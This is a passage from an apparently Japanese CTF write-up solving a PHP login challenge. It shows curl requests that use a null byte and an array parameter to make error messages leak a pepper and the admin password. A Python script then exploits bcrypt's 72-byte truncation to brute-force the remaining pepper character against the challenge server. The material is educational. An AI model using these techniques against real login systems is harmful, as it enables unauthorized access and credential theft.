 ```php
</body>

</html>
```
`admin`であればフラグをくれるようだ。  
まとめると、`guest`でしかログインできない(パスワードハッシュは入手できる)が、うまく`admin`としてverifyされるパスワードハッシュを作れということらしい。  
チームメンバが`バイナリセーフだっけ？`と言っていたため、以下のように試す。  
```bash
$ curl -X POST http://34.84.32.212:8080/ -d "auth=guest&password=%00"
<br />
<b>Fatal error</b>:  Uncaught ValueError: Bcrypt password must not contain null character in /var/www/html/index.php:21
Stack trace:
#0 /var/www/html/index.php(21): password_hash('PmVG7xe9ECBSgLU...', '2y')
#1 {main}
  thrown in <b>/var/www/html/index.php</b> on line <b>21</b><br />
```
`password_hash`のエラーより`$pepper1`の先頭から15文字が漏洩している(`PmVG7xe9ECBSgLU`)。  
さらにエラーを使うのではないかと考え、`password`を配列にしてみる。  
```bash
$ curl -X POST http://34.84.32.212:8080/ -d "auth=admin&password[]=admin"
<br />
<b>Fatal error</b>:  Uncaught TypeError: hash_equals(): Argument #2 ($user_string) must be of type string, array given in /var/www/html/index.php:13
Stack trace:
#0 /var/www/html/index.php(13): hash_equals('KeTzkrRuESlhd1V', Array)
#1 {main}
  thrown in <b>/var/www/html/index.php</b> on line <b>13</b><br />
```
`hash_equals`のエラーにより、`$admin_password`の16文字すべてが漏洩している(`KeTzkrRuESlhd1V`)。  
残るは`$pepper1`の末尾1文字と`$pepper2`の16文字であることが`assert`からわかる。  
ここで`password_hash`でアルゴリズム`PASSWORD_BCRYPT`が指定されていることに気づく。  
`PASSWORD_BCRYPT`は最大72バイトに切り詰められるとマニュアルにも[警告がある](https://www.php.net/manual/ja/function.password-hash.php)。  
つまり`password`を51文字にすると`$pepper1`とユーザ名`guest`の文字数を含めちょうど72文字になるため、後半の`$pepper2`は消えることとなる。  
あとはローカルでverifyするかを検証すれば`$pepper1`の残りの一文字を特定できる。  
以下のpepper1.pyで行う。  
```py
import base64
import bcrypt
import string
import requests

URL = "http://34.84.32.212:8080"
pepper1_15 = "PmVG7xe9ECBSgLU"


response = requests.post(
    URL, data={"auth": "guest", "password": "A" * 51}, allow_redirects=False
)
hash = base64.b64decode(response.cookies["hash"])

if hash.startswith(b"$2y$"):
    hash = b"$2b$" + hash[4:]

for i in string.printable:
    if bcrypt.checkpw(f"{pepper1_15}{i}guest{'A' * 51}".encode(), hash):
        print(f"FOUND: {pepper1_15}{i}")
        break
```
実行する。  
```bash
$ python pepper1.py
FOUND: PmVG7xe9ECBSgLUA
```